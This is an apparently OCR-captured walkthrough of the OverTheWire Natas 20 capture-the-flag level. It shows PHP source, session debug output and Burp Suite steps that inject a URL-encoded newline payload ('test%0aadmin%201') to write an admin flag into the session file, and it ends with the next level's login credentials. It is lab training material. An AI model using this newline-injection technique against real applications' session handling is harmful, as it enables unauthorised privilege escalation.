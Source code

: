 ```
    $name = $_SESSION["name"];
}

?>

<form action="index.php" method="POST">
Your name: <input name="name" value="<?=$name?>"><br>
<input type="submit" value="Change name" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

F12 → Application
Storage → Cookies

Name        Value
PHPSESSID   <random> → o6h7gj6t9hcsd5g2oljn8nsj5k

http://natas20.natas.labs.overthewire.org/?debug ⌨️
DEBUG: MYREAD o6h7gj6t9hcsd5g2oljn8nsj5k
DEBUG: Session file doesn't exist
You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
Your name: 
Change name

DEBUG: MYWRITE o6h7gj6t9hcsd5g2oljn8nsj5k
DEBUG: Saving in /var/lib/php/sessions/mysess_o6h7gj6t9hcsd5g2oljn8nsj5k

# Goal: $_SESSION["admin"] = 1
# Can't inject to browser directly need Burp Suite: test\nadmin 1
# Burp Suite:   Temporary project in memory
                Use Burp defaults

# Burp Suite: Click Proxy and open Burp Browser and Turn Intercept: On
# Browser: input test and submit form so Burp Browser can capture
# Burp Suite: Right click request and select Send to Repeater

# Burp Suite: Click on Repeater and edit name to be URL Encoded then press SEND
    name=test%0aadmin%201

You are an admin. The credetials for the next level are
Username: natas21
Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH 🔐
```